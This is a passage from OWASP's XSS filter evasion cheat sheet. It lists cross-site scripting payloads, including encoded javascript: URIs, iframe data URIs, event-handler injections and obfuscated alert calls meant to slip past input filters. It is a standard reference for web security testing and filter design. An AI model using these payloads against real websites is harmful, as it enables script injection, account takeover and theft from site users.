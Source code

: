- `<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>`
- `<form><a href="javascript:\u0061lert(1)">X`
- `</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>`
- `<style>//*{x:expression(alert(/xss/))}//<style></style>`
- On Mouse Over​
- `<img src="/" =_=" title="onerror='prompt(1)'">`
- `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe`
- `<script x> alert(1) </script 1=2`
- `<form><button formaction=javascript&colon;alert(1)>CLICKME`
- `<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"`
- `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>`
- `<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>`

## Filter Bypass Alert Obfuscation

- `(alert)(1)`
- `a=alert,a(1)`
- `[1].find(alert)`
- `top[“al”+”ert”](1)`
- `top[/al/.source+/ert/.source](1)`
- `al\u0065rt(1)`
- `top[‘al\145rt’](1)`
- `top[‘al\x65rt’](1)`
- `top[8680439..toString(30)](1)`
- `alert?.()`
- &#96;` ${alert``} `&#96; (The payload should include leading and trailing backticks.)
- `(alert())`

source: [OWASP
/
www-community](https://github.com/OWASP/www-community/blob/master/pages/xss-filter-evasion-cheatsheet.md)
